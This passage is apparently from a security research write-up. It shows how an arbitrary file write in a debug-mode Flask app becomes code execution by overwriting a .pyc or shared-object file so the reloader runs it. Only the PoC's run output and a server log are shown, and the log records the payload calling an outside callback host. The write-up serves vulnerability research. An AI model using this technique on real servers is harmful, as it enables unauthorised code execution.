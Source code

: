 > Note: I also tried `.zip` file, but no idea why the reloader won't get triggered.

To demonstrate this, here's a Flask web application with debug mode on, and it has a dirty AFW vulnerability:

<details><summary><strong>app.py</strong></summary></details>

<details><summary><strong>Dockerfile</strong></summary></details>

<details><summary><strong>poc_shared_object_file_trigger_reload.py</strong></summary></details>

```shell
└> python3 poc_shared_object_file_trigger_reload.py
[*] Writing our shared object file...
[*] Triggering the reloader...
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Research/python-dirty-arbitrary-file-write-to-rce-via-writing-shared-object-files-or-overwriting-bytecode-files/images/Pasted%20image%2020250428173954.png)

Server:

```shell
[...]
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:54] "POST /upload HTTP/1.1" 200 -
 * Detected change in '/app/anything.pyc', reloading
 * Restarting with stat
Connecting to 48jcuj6n.requestrepo.com (130.61.138.67:80)
writing to stdout
written to stdout
 * Debugger is active!
 * Debugger PIN: 192-854-631
```
